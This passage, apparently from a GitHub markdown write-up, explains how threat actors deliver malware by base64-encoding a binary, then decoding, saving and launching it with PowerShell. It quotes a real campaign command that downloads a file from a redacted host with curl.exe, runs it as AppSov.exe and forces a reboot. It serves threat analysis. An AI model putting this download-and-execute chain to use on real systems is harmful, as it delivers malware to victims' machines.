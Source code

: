 > 
> The base64 encoded string is then "dropped" onto the target computer.
> This could be done through various means, such as being embedded in a script,
> sent via email, or included in a malicious document that executes PowerShell
> commands when opened.
> 
> 3. Decoding the binary in PowerShell
> 
> Once the encoded string is on the target system, PowerShell can be used to
> decode it. The [System.Convert]::FromBase64String() method in PowerShell is
> used for this purpose.
> 
> Example for PowerShell obfuscation code
> 
> ```
> encodedString = "YOUR_BASE64_ENCODED_STRING_HERE"
> $decodedBytes = [System.Convert]::FromBase64String($encodedString)
> ```
> 
> 4. Saving the decoded Binary to a file
> 
> After decoding, the binary needs to be saved to a file. This can
> be done using the [System.IO.File]::WriteAllBytes() method:
> 
> ```
> $path = "C:\Path\To\Save\YourFile.exe"
> [System.IO.File]::WriteAllBytes($path, $decodedBytes)
> 
> ```
> 5. Executing the binary
> 
> Finally, the saved binary can be executed. One of the methods in which
> the threat actors can do this is directly from PowerShell or through
> other means such as creating a shortcut or using other scripts.
> 
> Example:
> 
> ```
> Start-Process -FilePath $path
> ```
> 
>  Another example for binary obfuscation through PowerShell commands
>  is shown in Chinese-linked cluster threat actor campaign ref [1].  
>  
>  The threat actor group is observed to obfuscate binaries (in particular
>  AppSov.exe) using PowerShell commands.  
> 
>  The threat actor deployed AppSov.exe by executing a PowerShell command
>  that performs the following actions:
> 
>  - A threat actor downloads a binary file named from a remote endpoint
>  using the utility curl.exe
>  - After they save the downloaded file as `AppSov.exe` in the
>  `C:\ProgramData\` directory.
>  - Launches the executable using the `Start-Process` PowerShell command.
>  - System reboot after some period of time. ref [1].      
> 
>  An example for used command:
> 
>  ```
>  sleep 60;curl.exe -o c:\programdata\AppSov.EXE http://[REDACTED]/dompdf/x.dat;start-process c:\programdata\AppSov.EXE;sleep 1800;shutdown.exe -r -t 1 -f;
>  
>  ```

[1]: https://www.sentinelone.com/labs/follow-the-smoke-china-nexus-threat-actors-hammer-at-the-doors-of-top-tier-targets
[2]: https://convert.readthedocs.io/en/latest/functions/ConvertTo-Base64
[3]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.5
[4]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.5